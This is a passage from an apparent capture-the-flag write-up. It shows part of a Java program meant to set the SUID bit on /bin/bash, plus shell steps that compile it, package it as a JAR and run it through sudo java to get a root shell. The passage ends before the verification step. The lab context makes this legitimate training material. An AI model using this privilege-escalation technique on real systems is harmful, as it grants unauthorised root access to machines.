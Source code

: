 ```java
            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line + "\n");
            }

            int exitVal = process.waitFor();
            if (exitVal == 0) {
                System.out.println("Success!");
                System.out.println(output);
                System.exit(0);
            } else {
                //abnormal...
            }

        } catch (IOException e) {
            e.printStackTrace();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```

This Java code will add a SUID sticky bit to `/bin/bash`, which allows us to spawn a root Bash shell.

- Create an evil Java file:

```shell
jdk-admin@vulnnet-dotjar:/var/backups$ cd /tmp
jdk-admin@vulnnet-dotjar:/tmp$ nano Main.java
```

- Compile it: (From [this blog](https://www.baeldung.com/java-create-jar))

```shell
jdk-admin@vulnnet-dotjar:/tmp$ javac Main.java
jdk-admin@vulnnet-dotjar:/tmp$ ls -lah
[...]
-rw-rw-r--  1 jdk-admin jdk-admin 1.4K Jan 23 08:50 Main.class
```

- Java Archive (JAR) it:

```shell
jdk-admin@vulnnet-dotjar:/tmp$ jar cfe Main.jar Main Main.class
```

- Execute it via `sudo`:

```shell
jdk-admin@vulnnet-dotjar:/tmp$ sudo /usr/bin/java -jar Main.jar 
Success!

```

- Verify the payload worked:
